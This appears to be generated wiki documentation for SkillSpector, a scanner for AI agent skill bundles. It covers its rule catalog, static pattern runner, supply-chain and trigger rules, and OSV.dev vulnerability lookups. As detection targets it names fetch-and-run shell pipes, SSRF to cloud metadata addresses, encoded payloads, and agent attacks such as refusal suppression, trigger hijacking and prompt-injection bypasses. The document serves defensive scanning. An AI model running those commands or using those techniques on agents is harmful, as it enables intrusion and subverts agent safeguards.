*   **Agent Snooping (AS1–AS3):** Detecting attempts to inspect sibling skill configurations or local agent directories.
*   **SSRF:** Targeting internal metadata endpoints (`169.254.169.254`), localhost, or private subnets.
*   **Harmful Content & Rogue Agent:** Identifying instructions promoting harm or unauthorized autonomous goal pursuit.
*   **Excessive Agency (EA1–EA4):** Unrestricted tool execution, autonomous high-impact decision-making, and unbounded resource allocation [src/skillspector/nodes/analyzers/static_patterns_excessive_agency.py:46-158]().
*   **Output Handling (OH1–OH3):** Piping model outputs directly into dangerous execution sinks (`eval`, `exec`, `innerHTML`).
*   **Tool Misuse & Deserialization:** Misuse of built-in execution tools or unsafe deserialization constructs (`pickle`, `yaml.load`).
*   **Anti-Refusal (AR1–AR3):** Neutralizing model refusal behavior, caveat suppression, and safety policy nullification [src/skillspector/nodes/analyzers/static_patterns_anti_refusal.py:48-122]().
*   **Whitespace Padding & Structured Skill Roles:** Validating structural integrity, tag bounds, and role allocations [src/skillspector/nodes/analyzers/whitespace_padding.py](), [src/skillspector/nodes/analyzers/structured_skill_roles.py]().

---

## Finding Derivation Pipeline

### Diagram: Static Finding Derivation Pipeline
The following diagram maps how raw component cache content is transformed into structured `AnalyzerFinding` records.

**Static Finding Derivation Pipeline**
```mermaid
graph TD
    subgraph "Input State"
        [State] --> ["state['file_cache']"]
    end

    subgraph "Runner Layer"
        ["state['file_cache']"] --> [run_static_patterns]
        [run_static_patterns] --> [_is_binary_file]
        [_is_binary_file] -->|Text File| [_infer_file_type]
    end

    subgraph "Analyzer Execution"
        [_infer_file_type] --> [module_analyze]
        [module_analyze] --> [re_finditer]
        [re_finditer] --> [AnalyzerFinding]
    end

    subgraph "Output Normalization"
        [AnalyzerFinding] --> [analyzer_finding_to_finding]
        [analyzer_finding_to_finding] --> [FindingList]
    end
```
Sources: [src/skillspector/nodes/analyzers/static_runner.py:117-136](), [src/skillspector/nodes/analyzers/static_runner.py:225-255]().

---

## Child Pages

For comprehensive technical documentation on specific sub-components, refer to the following child pages:

- [Static Runner and Pattern Framework](#3.1.1) — Detailed coverage of `run_static_patterns`, windowed security text views, markdown fence context, finding budgets, deduplication, and false-positive filters.
- [Supply Chain and Trigger Analyzers (SC/TR)](#3.1.2) — In-depth analysis of supply chain rules SC1–SC9 (vulnerable dependencies, typosquatting, hidden bytecode) and trigger abuse TR1–TR3.
- [Supply Chain: OSV.dev Live Vulnerability Lookups (SC4)](#3.1.3) — Deep dive into `osv_client.py`, dependency extraction, batch queries against the OSV.dev API, caching, and air-gapped fallbacks.

Sources: [src/skillspector/nodes/analyzers/static_runner.py](), [src/skillspector/nodes/analyzers/pattern_defaults.py]()

---

# Page: Static Runner and Pattern Framework

# Static Runner and Pattern Framework

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/nodes/analyzers/__init__.py](src/skillspector/nodes/analyzers/__init__.py)
- [src/skillspector/nodes/analyzers/common.py](src/skillspector/nodes/analyzers/common.py)
- [src/skillspector/nodes/analyzers/pattern_defaults.py](src/skillspector/nodes/analyzers/pattern_defaults.py)
- [src/skillspector/nodes/analyzers/static_runner.py](src/skillspector/nodes/analyzers/static_runner.py)
- [tests/fixtures/pe3_bare_keyring/SKILL.md](tests/fixtures/pe3_bare_keyring/SKILL.md)
- [tests/fixtures/pe3_bare_keyring/issue-396-keyring.md](tests/fixtures/pe3_bare_keyring/issue-396-keyring.md)
- [tests/nodes/analyzers/test_registry.py](tests/nodes/analyzers/test_registry.py)
- [tests/nodes/analyzers/test_static_runner_filtering.py](tests/nodes/analyzers/test_static_runner_filtering.py)
- [tests/unit/test_reviewer_nits.py](tests/unit/test_reviewer_nits.py)

</details>


## Purpose and Scope

This page documents the internal architecture of the static pattern execution subsystem in SkillSpector. The static runner (`run_static_patterns` and `run_static_patterns_with_ledger`) serves as the core orchestration driver that feeds normalized text streams, windowed security views, and markdown fence contexts to individual pattern analysis modules. It enforces strict resource bounds, computes deduplication keys, applies false-positive heuristics (such as license boilerplate and documentation code examples), and wires pattern defaults and registry metadata.

Sources: `[src/skillspector/nodes/analyzers/static_runner.py:16-125]()`

---

## Execution Driver and Ledger Integration

The static pattern subsystem processes file contents retrieved from the workflow state cache (`state["file_cache"]`) across registered pattern modules. The driver exposes two primary entry points: `run_static_patterns` and `run_static_patterns_with_ledger`.

```mermaid
graph TD
    subgraph "NaturalLanguageSpace:WorkflowExecution"
        A["StateGraphNodeExecution"] --> B["StaticPatternDriverInvocation"]
    end
    subgraph "CodeEntitySpace:StaticRunner"
        B --> C["run_static_patterns(state, modules)"]
        C --> D["run_static_patterns_with_ledger(state, modules)"]
        D --> E["security_text_views(content, file_type)"]
        E --> F["module.analyze(content, file_path, file_type)"]
        F --> G["observe_analyzer_findings(...)"]
    end
    G --> H["InspectionLedgerEventRecord"]

    style A fill:#fff,stroke:#333,stroke-width:2px
    style C fill:#fff,stroke:#333,stroke-width:2px
    style D fill:#fff,stroke:#333,stroke-width:2px
    style E fill:#fff,stroke:#333,stroke-width:2px
    style F fill:#fff,stroke:#333,stroke-width:2px
    style G fill:#fff,stroke:#333,stroke-width:2px
```
Sources: `[src/skillspector/nodes/analyzers/static_runner.py:20-67]()`, `[src/skillspector/models.py:40-46]()`

When `run_static_patterns_with_ledger` executes, it records granular execution telemetry into the audit subsystem using `ledger_event`. Each artifact-module pair emits outcome statuses (`LedgerOutcome.SUCCESS`, `LedgerOutcome.SKIPPED`, `LedgerOutcome.FAILED`) paired with reasons such as `LedgerReason.COMPLETED`, `LedgerReason.EXCEEDED_CHARACTER_LIMIT`, or `LedgerReason.TIMEOUT`.

Sources: `[src/skillspector/inspection_ledger.py:36-43]()`, `[src/skillspector/nodes/analyzers/static_runner.py:174-178]()`

---

## Artifact Projections and Security Views

To defeat text obfuscation, homograph attacks, and cross-boundary injection tricks, the runner converts raw file inputs into multi-view security projections before passing them to analyzers.

```mermaid
graph TD
    subgraph "NaturalLanguageSpace:ArtifactPreprocessing"
        A["RawByteStreamOrContent"] --> B["ContentKindClassification"]
    end
    subgraph "CodeEntitySpace:SecurityViews"
        B --> C["security_text_views(content, file_type)"]
        C --> D["_markdown_fence_states(content, offsets)"]
        C --> E["build_declared_marker_views(...)"]
        C --> F["NFKCUnicodeNormalization"]
    end
    F --> G["WindowedSlices:SECURITY_VIEW_WINDOW_CHARS=256000"]

    style A fill:#fff,stroke:#333,stroke-width:2px
    style C fill:#fff,stroke:#333,stroke-width:2px
    style D fill:#fff,stroke:#333,stroke-width:2px
    style E fill:#fff,stroke:#333,stroke-width:2px
    style G fill:#fff,stroke:#333,stroke-width:2px
```
Sources: `[src/skillspector/artifacts.py:29-35]()`, `[src/skillspector/nodes/analyzers/static_runner.py:89-138]()`, `[src/skillspector/security_reconstruction.py:52-56]()`

### Key View Projections & Fences
- **Windowed Security Text Views**: Files exceeding `MAX_FILE_CHARS` (aligned with `MAX_PYTHON_AST_SOURCE_CHARS`) or `SECURITY_VIEW_WINDOW_CHARS` (256,000 characters) are partitioned into overlapping windows (`_WINDOW_OVERLAP_CHARS = 8192`) to maintain continuity across boundary breaks.
- **Markdown Fence Context**: The runner maintains stateful markdown fence tracking via `_advance_markdown_fence` and `_markdown_fence_states` to distinguish whether a match occurs inside a fenced code block or document prose.
- **Continuity Views**: Auxiliary projections bridge attacker-controlled separators while respecting bounded-gap limits (`_CONTINUITY_SEPARATOR_CHARS`).

Sources: `[src/skillspector/nodes/analyzers/static_runner.py:89-146]()`, `[src/skillspector/nodes/common.py:27-30]()`

---

## Resource Bounds and Finding Budgets

To protect against denial-of-service through regex catastrophic backtracking or infinite generation loops, the static runner enforces strict limits:

| Bound Constant | Value | Description |
| :--- | :--- | :--- |
| `MAX_FINDINGS_PER_ARTIFACT` | `10,000` | Maximum findings allowed from a single file component. |
| `MAX_FINDINGS_PER_ANALYZER` | `10,000` | Maximum findings aggregated per analyzer node. |
| `MAX_STATIC_ANALYSIS_SECONDS_PER_ARTIFACT` | `30.0` | Wall-clock time budget per artifact evaluation. |
| `SECURITY_VIEW_WINDOW_CHARS` | `256,000` | Maximum character length for a single security text view window. |

Sources: `[src/skillspector/nodes/analyzers/static_runner.py:90-119]()`

---

## False-Positive Filtering and Deduplication

Static patterns often match documentation examples, license texts, or environment reference templates. The runner filters these out using domain heuristics:

- **License Boilerplate Filter**: Files matching `_LICENSE_BASENAME` (e.g., `LICENSE`, `COPYING.lesser`) within text or markdown views have non-critical rule findings suppressed.
- **Code Example Detection**: Helpers like `is_code_example` in `src/skillspector/nodes/analyzers/common.py` inspect surrounding context for markers (````, `example:`, `e.g.`, `// ✅`) to filter out benign documentation snips. Note that `SKILL.md` is explicitly never treated as a code example to prevent attackers from bypassing prompt injection checks by placing a code fence nearby.
- **Deduplication**: Findings are deduplicated using `classification_metadata_key` from `src/skillspector/nodes/deduplicate.py` to collapse overlapping window views into a single unique record.

Sources: `[src/skillspector/nodes/analyzers/static_runner.py:120-125]`, `[src/skillspector/nodes/analyzers/common.py:47-80]`, `[src/skillspector/nodes/deduplicate.py:46()`]`

---

## Pattern Defaults and Registry Wiring

Each static pattern module maps rule identifiers (e.g., `P1`, `E1`, `PE3`) to default explanations, remediations, and categories using `pattern_defaults.py`.

```mermaid
graph TD
    subgraph "NaturalLanguageSpace:MetadataWiring"
        A["RuleIdentifier:P1,E1,PE3"] --> B["PatternCategoryEnum"]
    end
    subgraph "CodeEntitySpace:RegistryAndDefaults"
        B --> C["get_category(rule_id)"]
        B --> D["get_explanation(rule_id)"]
        B --> E["get_remediation(rule_id)"]
        F["ANALYZER_NODES[analyzer_id]"] --> G["_discover_analyzers()"]
        G --> H["ANALYZER_MODULES[analyzer_id]"]
    end

    style A fill:#fff,stroke:#333,stroke-width:2px
    style C fill:#fff,stroke:#333,stroke-width:2px
    style D fill:#fff,stroke:#333,stroke-width:2px
    style E fill:#fff,stroke:#333,stroke-width:2px
    style F fill:#fff,stroke:#333,stroke-width:2px
    style G fill:#fff,stroke:#333,stroke-width:2px
```
Sources: `[src/skillspector/nodes/analyzers/pattern_defaults.py:20-85]()`, `[src/skillspector/nodes/analyzers/__init__.py:33-61]()`

The analyzer package initializer (`src/skillspector/nodes/analyzers/__init__.py`) dynamically iterates over package modules via `pkgutil.iter_modules`, inspecting `ANALYZER_ID` and `node` callables to populate `ANALYZER_NODE_IDS`, `ANALYZER_NODES`, and `ANALYZER_MODULES`.

Sources: `[src/skillspector/nodes/analyzers/__init__.py:33-61]()`

---

# Page: Supply Chain and Trigger Analyzers (SC/TR)

# Supply Chain and Trigger Analyzers (SC/TR)

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/nodes/analyzers/osv_client.py](src/skillspector/nodes/analyzers/osv_client.py)
- [src/skillspector/nodes/analyzers/static_patterns_agent_snooping.py](src/skillspector/nodes/analyzers/static_patterns_agent_snooping.py)
- [src/skillspector/nodes/analyzers/static_patterns_output_handling.py](src/skillspector/nodes/analyzers/static_patterns_output_handling.py)
- [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py](src/skillspector/nodes/analyzers/static_patterns_supply_chain.py)
- [tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py](tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py)
- [tests/unit/test_osv_client.py](tests/unit/test_osv_client.py)
- [tests/unit/test_patterns_new.py](tests/unit/test_patterns_new.py)

</details>


## Purpose and Scope

This page provides a deep technical dive into the supply chain (`SC1`–`SC9`) and trigger abuse (`TR1`–`TR3`) static pattern analyzers implemented in `src/skillspector/nodes/analyzers/static_patterns_supply_chain.py`. It covers dependency manifest parsing across multiple formats (`requirements.txt`, `pyproject.toml`, `uv.lock`, `poetry.lock`), live vulnerability resolution via `src/skillspector/nodes/analyzers/osv_client.py`, container image security checks, bytecode detection, concealed executable artifacts, and agent trigger validation.

Sources: `src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:1-96` [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:1-96](), `src/skillspector/nodes/analyzers/osv_client.py:1-80` [src/skillspector/nodes/analyzers/osv_client.py:1-80]()

---

## 1. Rule Catalog: Supply Chain (SC1–SC9) and Trigger Abuse (TR1–TR3)

The supply chain and trigger analyzer evaluates dependency configurations, build scripts, manifest files, and agent metadata declarations for malicious or risky patterns. 

- **SC1 (Unpinned or Loose Dependencies)**: Detects packages specified without strict version constraints (e.g., wildcard versions, `*`, `latest`, or loose `^` ranges) [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:100-111]().
- **SC2 (Risky Remote Fetch & Execute)**: Identifies insecure shell pipe-to-interpreter patterns (e.g., `curl ... | bash`, `wget ... | sh`, or inline `exec(urllib.request.urlopen(...).read())`) [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:112-126]().
- **SC3 (Obfuscated or Encoded Payloads)**: Detects runtime decoding or deserialization of concealed payloads (e.g., `base64.b64decode`, `marshal.loads`, zlib decompressions, or large hex/base64 string literals) [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:127-145]().
- **SC4 (Known Vulnerable Dependencies)**: Cross-references parsed dependency names and locked versions against the live OSV.dev batch API (`src/skillspector/nodes/analyzers/osv_client.py`), using local fallback lists when offline [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:16-19]().
- **SC5 (Abandoned Packages)**: Flags known-abandoned or archived upstream packages that present unmaintained supply-chain risks [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:20-20]().
- **SC6 (Typosquatting)**: Identifies package names structurally similar to popular ecosystem libraries designed to spoof legitimate dependencies [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:21-21]().
- **SC7 (Untrusted Container Image Pulls)**: Flags container pulls or orchestration commands with content-trust or signature verification disabled (e.g., `--disable-content-trust`, `DOCKER_CONTENT_TRUST=0`, `--insecure-registry`) [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:147-160]().
- **SC8 (Shipped Python Bytecode)**: Flags precompiled bytecode artifacts (`__pycache__/`, `*.pyc`, `*.pyo`) embedded inside skill bundles that standard directory discovery normally bypasses [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:22-23]().
- **SC9 (Concealed Executable Artifacts)**: Flags raw binaries or compiled executables nested within documentation or hidden skill assets [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:24-24]().
- **TR1–TR3 (Trigger Abuse)**: Identifies overly broad capability triggers (`TR1`), command/intent shadowing (`TR2`), and social engineering or baiting triggers (`TR3`) [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:25-25]().

Sources: `src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:16-160` [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:16-160]()

---

## 2. Lockfile Parsing and Dependency Extraction

Dependency analysis is governed by strict resource bounds defined at the module level in `src/skillspector/nodes/analyzers/static_patterns_supply_chain.py` to prevent denial-of-service vulnerabilities during large repository scans:

```python
MAX_DEPENDENCY_FILES_PER_SCAN = 64
MAX_DEPENDENCY_PACKAGES_PER_FILE = 256
MAX_DEPENDENCY_PACKAGES_PER_SCAN = 1_024
MAX_DEPENDENCY_FINDINGS_PER_FILE = 512
MAX_DEPENDENCY_FINDINGS_PER_SCAN = 2_048
MAX_DEPENDENCY_ANALYSIS_SECONDS = 30.0
```
*(Reference: `src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:86-91`)*

### Supported Formats and Parsing Logic
- **`requirements.txt`**: Parsed via `packaging.requirements.Requirement` to extract package names and specifiers.
- **`pyproject.toml`, `uv.lock`, and `poetry.lock`**: Parsed using Python's standard `tomllib` library [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:38-38](). Specifically, `_extract_packages_from_toml_lock` extracts table arrays under `[[package]]` entries, accurately anchoring line numbers to package blocks [tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py:84-99]().

```mermaid
graph TD
    A["InputManifestFile"] --> B["_analyze_dependencies"]
    B --> C{FileExtension}
    C -->|requirements.txt| D["RequirementParser"]
    C -->|pyproject.toml| E["TomlParserDeps"]
    C -->|uv.lock/poetry.lock| F["_extract_packages_from_toml_lock"]
    D --> G["NormalizedPackageList"]
    E --> G
    F --> G
    G --> H["osv_client.query_batch"]
    H --> I["VulnerabilityFindings"]

    subgraph "Sources"
        s1["src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:71-88"]
        s2["tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py:33-61"]
    end
```
Sources: `src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:71-88` [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:71-88](), `tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py:33-61` [tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py:33-61]()

---

## 3. OSV.dev Integration (SC4)

The SC4 rule delegates vulnerability lookups to `src/skillspector/nodes/analyzers/osv_client.py`. 

### Query Architecture and Budgeting
1. **Batching**: Packages extracted from manifests are batched into requests sent to `https://api.osv.dev/v1/querybatch` [src/skillspector/nodes/analyzers/osv_client.py:42-42]().
2. **`OsvQueryBudget`**: Enforces strict operational ceilings across requests, response payload sizes (`MAX_OSV_RESPONSE_BYTES = 4MB`), batch counts (`MAX_OSV_QUERY_BATCHES = 4`), and execution deadlines [src/skillspector/nodes/analyzers/osv_client.py:58-66]().
3. **Severity Estimation**: Vulnerabilities returned by OSV are mapped to normalized `Severity` tiers (`CRITICAL`, `HIGH`, `MEDIUM`, `LOW`) by parsing CVSS v3/v4 vector strings (`_estimate_cvss_severity`) or database-specific fields (`_severity_from_vuln`) [tests/unit/test_osv_client.py:48-122]().
4. **Fallback Handling**: If the OSV API is unreachable due to network timeouts, connection refusals, or air-gapped environments, the analyzer records a partial inspection ledger outcome and falls back to a curated static list [src/skillspector/nodes/analyzers/osv_client.py:173-181]().

```mermaid
graph TD
    A["NormalizedPackageList"] --> B["OsvQueryBudget.create"]
    B --> C["query_batch"]
    C --> D{API Reachable?}
    D -->|Yes| E["POST api.osv.dev/v1/querybatch"]
    E --> F["GET api.osv.dev/v1/vulns"]
    F --> G["_severity_from_vuln / _estimate_cvss_severity"]
    D -->|No/Timeout| H["StaticFallbackVulnerabilityList"]
    G --> I["AnalyzerFindingList"]
    H --> I

    subgraph "Sources"
        s1["src/skillspector/nodes/analyzers/osv_client.py:42-161"]
        s2["tests/unit/test_osv_client.py:124-181"]
    end
```
Sources: `src/skillspector/nodes/analyzers/osv_client.py:42-181` [src/skillspector/nodes/analyzers/osv_client.py:42-181](), `tests/unit/test_osv_client.py:124-181` [tests/unit/test_osv_client.py:124-181]()

---

## 4. Trigger Abuse Analyzers (TR1–TR3)

Trigger abuse rules inspect skill activation descriptors (such as prompt invocation triggers, tool bindings, and skill frontmatter definitions) to catch deceptive or overly broad activation vectors.

- **TR1 (Overly Broad Triggers)**: Flags wildcard or unconstrained trigger phrases designed to hijack every user utterance regardless of intent.
- **TR2 (Trigger Shadowing)**: Detects triggers that mimic core system commands or built-in tool names to intercept control flow.
- **TR3 (Baiting/Social Engineering Triggers)**: Identifies deceptive instructions disguised as urgent security prompts or administrative overrides to manipulate agent routing.

Sources: `src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:16-28` [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:16-28]()

---

## 5. End-to-End Data Flow

The complete flow from skill components to supply chain findings and ledger event recording is illustrated below:

```mermaid
graph TD
    A["node StateInput"] --> B["static_runner.run_static_patterns_with_ledger"]
    B --> C["_analyze_dependencies"]
    C --> D["_extract_packages_from_toml_lock / RequirementParser"]
    D --> E["osv_client.query_batch"]
    E --> F["static_runner.analyzer_finding_to_finding"]
    F --> G["AnalyzerNodeResponse"]

    subgraph "Sources"
        s1["src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:71-88"]
        s2["tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py:162-205"]
    end
```
Sources: `src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:71-88` [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:71-88](), `tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py:162-205` [tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py:162-205]()

---

# Page: Supply Chain: OSV.dev Live Vulnerability Lookups (SC4)

# Supply Chain: OSV.dev Live Vulnerability Lookups (SC4)

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/nodes/analyzers/osv_client.py](src/skillspector/nodes/analyzers/osv_client.py)
- [src/skillspector/nodes/analyzers/static_patterns_agent_snooping.py](src/skillspector/nodes/analyzers/static_patterns_agent_snooping.py)
- [src/skillspector/nodes/analyzers/static_patterns_output_handling.py](src/skillspector/nodes/analyzers/static_patterns_output_handling.py)
- [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py](src/skillspector/nodes/analyzers/static_patterns_supply_chain.py)
- [tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py](tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py)
- [tests/unit/test_osv_client.py](tests/unit/test_osv_client.py)
- [tests/unit/test_patterns_new.py](tests/unit/test_patterns_new.py)

</details>


The **SC4** rule in SkillSpector provides automated detection of known vulnerabilities (CVEs, GHSAs) in a skill's dependencies. Unlike static patterns that rely on hardcoded fallback lists, SC4 primarily utilizes the [OSV.dev](https://osv.dev) API via `osv_client.py` to perform live, ecosystem-aware vulnerability lookups for Python (PyPI) and Node.js (npm) packages.

Sources: [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:16-28](), [src/skillspector/nodes/analyzers/osv_client.py:16-23]()

## 1. Architecture and Data Flow

The SC4 subsystem bridges static manifest parsing and live threat intelligence. When the `static_patterns_supply_chain` analyzer processes a skill component, it extracts package manifests and queries the OSV database using `osv_client.py`.

### System Interaction Diagram
The following diagram illustrates how the `static_patterns_supply_chain` module interacts with `osv_client.py` and external network services.

"SC4 Data Flow: From File to API"
```mermaid
graph TD
    A["static_patterns_supply_chain:analyze()"] --> B["_analyze_dependencies()"]
    B --> C1["_extract_packages_from_requirements()"]
    B --> C2["_extract_packages_from_package_json()"]
    B --> C3["_extract_packages_from_toml_lock()"]
    B --> D["osv_client:query_batch()"]
    
    subgraph "osv_client.py"
        D --> E["OsvQueryBudget:create()"]
        E --> F{"_cache lookup"}
        F -- "Miss" --> G["httpx.Client.post(_OSV_BATCH_URL)"]
        G --> H["_fetch_vuln_details()"]
        H --> I["httpx.Client.get(_OSV_VULN_URL)"]
        I --> J["_parse_vuln()"]
        J --> K["_severity_from_vuln()"]
        K --> F -- "Store" --> D
    end

    subgraph "External Services"
        G -. "POST /v1/querybatch" .-> OSV["OSV.dev API"]
        I -. "GET /v1/vulns/{id}" .-> OSV
    end

    D --> L["VulnResult"]
    L --> B
```
Sources: [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:423-455](), [src/skillspector/nodes/analyzers/osv_client.py:121-161]()

## 2. Dependency Extraction (`_analyze_dependencies`)

SkillSpector targets two primary ecosystems for SC4 lookups:
1. **PyPI**: Extracted from `requirements.txt`, `pyproject.toml`, `poetry.lock`, or `uv.lock`. Lockfile parsers such as `_extract_packages_from_toml_lock` extract pinned versions to ensure precise lookups [tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py:33-60]().
2. **npm**: Extracted from `package.json` manifest formats [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:553-575]().

The extractor identifies the package name and version string. This version is critical because OSV.dev performs server-side version-range matching using PEP 440 (Python) or SemVer (npm) semantics.

Sources: [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:530-575](), [tests/nodes/analyzers/test_static_patterns_supply_chain_lockfiles.py:33-97]()

## 3. OSV Client Implementation (`osv_client.py`)

The `osv_client.py` module manages all HTTP communication with the OSV database, query batching, timeouts, and result caching.

### Batch Querying and Budget Enforcement
To minimize network overhead, SkillSpector uses the OSV `querybatch` endpoint (`_OSV_BATCH_URL`) [src/skillspector/nodes/analyzers/osv_client.py:42](). Requests are bounded by `OsvQueryBudget`, which enforces aggregate ceilings on packages, batches, response bytes, and execution time [src/skillspector/nodes/analyzers/osv_client.py:121-161](). The request timeout defaults to `30.0` seconds and can be overridden via `SKILLSPECTOR_OSV_TIMEOUT` [src/skillspector/nodes/analyzers/osv_client.py:44-53]().

### Severity Estimation
When OSV returns CVSS vectors instead of categorical severity strings, the internal helper `_estimate_cvss_severity` parses v3 and v4 vector strings to map them into standard severity bands [tests/unit/test_osv_client.py:48-92]():
* **CRITICAL**: High-impact metrics ratio $\ge$ 0.75
* **HIGH**: Ratio $\ge$ 0.5
* **MEDIUM**: Ratio $\ge$ 0.25
* **LOW**: Ratio $<$ 0.25

### In-Memory Caching
To prevent redundant API calls during multi-skill scans, `osv_client.py` implements an in-memory cache `_cache` [src/skillspector/nodes/analyzers/osv_client.py:73]() protected against unbounded growth (`MAX_OSV_CACHE_ENTRIES = 4_096`) [src/skillspector/nodes/analyzers/osv_client.py:66]().

### Code Entity Space: OSV Client Internals
The following diagram maps the internal functions and classes within `osv_client.py`:

"OSV Client Code Entity Mapping"
```mermaid
graph TD
    subgraph "osv_client.py"
        QB["query_batch()"] --> OB["OsvQueryBudget:create()"]
        QB --> GC["_get_cached()"]
        GC -- "Miss" --> POST["httpx.Client.post()"]
        POST --> FVD["_fetch_vuln_details()"]
        FVD --> GET["httpx.Client.get()"]
        GET --> PV["_parse_vuln()"]
        PV --> SFV["_severity_from_vuln()"]
        SFV --> ECV["_estimate_cvss_severity()"]
        PV --> SC["_store_cache()"]
    end
```
Sources: [src/skillspector/nodes/analyzers/osv_client.py:42-161](), [tests/unit/test_osv_client.py:48-92]()

## 4. Resilience, Caching, and Air-Gapped Fallbacks

SkillSpector functions in air-gapped or network-restricted environments where `api.osv.dev` is unreachable.

### The Network Waterfall
1. **Live API**: Primary lookup via `query_batch()` [src/skillspector/nodes/analyzers/osv_client.py:214-250]().
2. **Status Tracking**: The global boolean `_last_query_ok` records whether the most recent API call succeeded, exposed via `was_osv_reachable()` [src/skillspector/nodes/analyzers/osv_client.py:73-75]().
3. **Static Fallback**: If network errors occur, the analyzer falls back to `_sc4_from_fallback()` using built-in lists of historical vulnerabilities (`_FALLBACK_VULNERABLE_PYPI` and `_FALLBACK_VULNERABLE_NPM`) [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:168-200]().

Sources: [src/skillspector/nodes/analyzers/osv_client.py:51-75](), [src/skillspector/nodes/analyzers/static_patterns_supply_chain.py:168-200]()

## 5. Credential Handling and Security Boundaries

The OSV.dev public API is unauthenticated and does not require API keys or bearer tokens. Consequently, `osv_client.py` makes unauthenticated HTTP requests via `httpx.Client` without sending any user credentials or local environment secrets. Network operations respect standard HTTP proxy environment variables (`HTTP_PROXY`, `HTTPS_PROXY`) natively handled by `httpx`.

Sources: [src/skillspector/nodes/analyzers/osv_client.py:42-44]()

---

# Page: Behavioral Analyzers (AST and Taint Tracking)

# Behavioral Analyzers (AST and Taint Tracking)

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/nodes/analyzers/behavioral_ast.py](src/skillspector/nodes/analyzers/behavioral_ast.py)
- [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py](src/skillspector/nodes/analyzers/behavioral_taint_tracking.py)
- [src/skillspector/nodes/analyzers/bundled_execution_surface.py](src/skillspector/nodes/analyzers/bundled_execution_surface.py)
- [src/skillspector/nodes/analyzers/static_patterns_deserialization.py](src/skillspector/nodes/analyzers/static_patterns_deserialization.py)
- [src/skillspector/python_ast.py](src/skillspector/python_ast.py)
- [tests/nodes/analyzers/test_behavioral_ast.py](tests/nodes/analyzers/test_behavioral_ast.py)
- [tests/nodes/analyzers/test_behavioral_taint_tracking.py](tests/nodes/analyzers/test_behavioral_taint_tracking.py)
- [tests/nodes/analyzers/test_bundled_execution_surface.py](tests/nodes/analyzers/test_bundled_execution_surface.py)
- [tests/nodes/analyzers/test_static_patterns_deserialization.py](tests/nodes/analyzers/test_static_patterns_deserialization.py)
- [tests/test_bundled_execution_surface_acceptance.py](tests/test_bundled_execution_surface_acceptance.py)

</details>


Behavioral analyzers in SkillSpector move beyond simple regex matching by parsing Python source code into Abstract Syntax Trees (AST) and performing rigorous data-flow analysis. This enables the system to understand code structure, resolve variable types, track data propagation from untrusted sources to dangerous sinks, and inspect bundled configuration execution surfaces [src/skillspector/nodes/analyzers/behavioral_ast.py:16-20](), [src/skillspector/nodes/analyzers/behavioral_taint_tracking.py:16-21]().

---

## Behavioral AST Analyzer (`behavioral_ast`)

The `behavioral_ast` analyzer uses Python's built-in `ast` module to identify dangerous execution patterns that evade static regex matching, such as dynamic attribute access, nested execution chains, and insecure deserialization [src/skillspector/nodes/analyzers/behavioral_ast.py:16-20]().

### Detection Rules (AST1–AST10)

| Rule ID | Name | Severity | Description |
| :--- | :--- | :--- | :--- |
| **AST1** | `exec()` call | HIGH | Direct execution of strings as Python code [src/skillspector/nodes/analyzers/behavioral_ast.py:136](). |
| **AST2** | `eval()` call | HIGH | Evaluation of arbitrary expressions [src/skillspector/nodes/analyzers/behavioral_ast.py:137](). |
| **AST3** | Dynamic Import | MEDIUM | Use of `__import__()` for dynamic module loading [src/skillspector/nodes/analyzers/behavioral_ast.py:138](). |
| **AST4** | Subprocess Call | MEDIUM | Use of `subprocess` module execution APIs [src/skillspector/nodes/analyzers/behavioral_ast.py:139](). |
| **AST5** | OS Exec Family | HIGH | `os.system()` or `os.exec*` family execution calls [src/skillspector/nodes/analyzers/behavioral_ast.py:140](). |
| **AST6** | `compile()` call | MEDIUM | Compiling source strings into executable code objects [src/skillspector/nodes/analyzers/behavioral_ast.py:141](). |
